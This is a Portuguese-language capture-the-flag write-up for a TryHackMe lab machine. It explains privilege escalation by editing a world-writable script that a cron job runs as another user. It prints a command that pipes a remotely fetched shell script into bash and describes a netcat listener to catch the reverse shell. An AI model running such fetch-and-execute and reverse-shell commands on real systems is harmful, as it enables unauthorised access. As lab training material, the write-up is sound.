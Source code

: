 🚀 # 🛡️ Exploração da Máquina — 0ff3ns!v3 S3cur!ty - Sw4gg3r

## 🔗 Links

- 💻 **Máquina:** [Google Drive - Máquina](https://drive.google.com/file/d/1XsuWUulDDdktnV6fpPgRIH172iASvVmz/view)
- 🔍 **Prova:** [TryHackMe - 0ff3ns!v3 S3cur!ty - Sw4gg3r](https://tryhackme.com/room/0ff3nsv3s3curtysw4gg3r)

---

## 🧠 Resumo: Como Escalar Privilégios para o Usuário '👑 `swagger`'

### Situação:
- Existe um arquivo chamado `📜 `script.sh`` com permissão `777`:
  ```txt
  -rwxrwxrwx 1 user-👑 `swagger` user-👑 `swagger` 184 Jun 1 2023 📜 `script.sh`
  ```
- Isso significa que **qualquer usuário pode ler, escrever e executar** esse arquivo.
- O **dono do arquivo é o usuário '👑 `swagger`'**, que tem mais privilégios que o usuário atual (`👤 `www-data``).

### Problema:
- Estamos logados como `👤 `www-data``, um usuário limitado.
- Executar o script manualmente com `👤 `www-data`` **não eleva os privilégios**, porque o shell reverso retornará com os mesmos direitos de `👤 `www-data``.
![image](https://github.com/user-attachments/assets/b0322b76-b96a-4585-a5cf-a485ee1183bb)
- Por exemplo nesta imagem eu escalei privilégio do meu próprio usuário e consegui, mas não saí do próprio 👤 `www-data`.

### Solução:
1. Editar o `📜 `script.sh`` e **inserir um comando de shell reverso**, por exemplo:
   ```bash
   📡 `curl http://192.168.100.168:8000/shell_2.sh | bash`
   ```
2. **Esperar o cron job executá-lo automaticamente** (ele roda a cada minuto).
   - Como o script será executado pelo próprio usuário `👑 `swagger``, o shell reverso retornará com os privilégios dele.

### Conclusão:
- A escalada de privilégios acontece **não quando você executa o script manualmente**, mas quando o **cron do '👑 `swagger`' executa o script que você editou**.

---

### Agora vamos alterar o conteúdo do arquivo e colocá-lo para buscar naquele mesmo servidor Python, baixar e executar o comando do arquivo dentro do bash, enquanto escutamos do outro lado com o NC.
![image](https://github.com/user-attachments/assets/35d15a91-bf21-42f9-b622-afb6d0e2707c)
- Arquivo alterado com a shell. Agora abrimos outro terminal e escutamos na porta 4444 enquanto esperamos a atualização do comando que alteramos para enviar o cmd shell.
![image](https://github.com/user-attachments/assets/c1d126d2-8923-42f5-823d-1ac0c41a0378)

- Temos duas shells ativas agora: uma do 👤 `www-data` que era fraca e não possuía muitos privilégios, e a do 👑 `swagger` que vamos explorar ainda.
![image](https://github.com/user-attachments/assets/26fbd6bc-317c-48f5-9612-7495663d43b5)

# Depois de explorar como 👑 `swagger`...
![image](https://github.com/user-attachments/assets/f645cf56-c6ce-40f9-98a1-5fec134f9d25)

Conteúdo do .backup:
```txt
#!/bin/bash
##### Script em desenvolvimento visualizar containers ######
###########################################################
######## verificando containers em execução ###############
🐳 `docker ps`
a=$(🐳 `docker ps` | cut -d " " -f1 | grep -v "CONTAINER")

######################## Docker Inspect ###################
🔍 `docker inspect` $a
```

# Escalando para 🛡️ `root`
![image](https://github.com/user-attachments/assets/bf139977-d1f1-4cc6-8afa-4439c19f50b9)

# 🖥️ `bash -li` (upgrade de shell)
![image](https://github.com/user-attachments/assets/56ab04c4-f382-4e91-a7e8-df4e53c5df1e)
Agora é só ser feliz.

🐳 `docker ps` / 🔍 `docker inspect`
![image](https://github.com/user-attachments/assets/79e11a7e-da0d-4f7b-83c3-8256d4c53299)

---
🏁 **Flag Root** 
---
![image](https://github.com/user-attachments/assets/e0610da5-e09a-459a-92a7-4b3ffba6163f)
---
![image](https://github.com/user-attachments/assets/edc189b9-5a6e-4a90-9abb-9e85ef9e8758)
---
![image](https://github.com/user-attachments/assets/9b1aa064-ce27-47f1-a1f4-7ce54265b4da)
